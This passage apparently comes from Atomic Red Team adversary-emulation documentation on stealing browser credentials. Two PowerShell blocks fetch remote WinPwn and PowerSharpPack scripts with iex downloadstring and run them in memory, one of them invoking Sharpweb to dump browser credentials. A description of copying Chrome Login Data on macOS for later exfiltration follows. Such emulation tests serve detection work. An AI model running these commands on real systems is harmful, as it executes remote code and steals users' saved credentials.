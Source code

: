 




#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
kittenz -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #13 - WinPwn - PowerSharpPack - Sharpweb for Browser Credentials
PowerSharpPack - Sharpweb searching for Browser Credentials technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** e5e3d639-6ea8-4408-9ecd-d5a286268ca0






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Sharpweb.ps1')
Invoke-Sharpweb -command "all"
```






<br/>
<br/>

## Atomic Test #14 - Simulating Access to Chrome Login Data - MacOS
This test locates the Login Data files used by Chrome to store encrypted credentials, then copies them to the temp directory for later exfil. 
Once the files are exfiltrated, malware like CookieMiner could be used to perform credential extraction. 
See https://unit42.paloaltonetworks.com/mac-malware-steals-cryptocurrency-exchanges-cookies/ .

**Supported Platforms:** macOS


**auto_generated_guid:** 124e13e5-d8a1-4378-a6ee-a53cd0c7e369
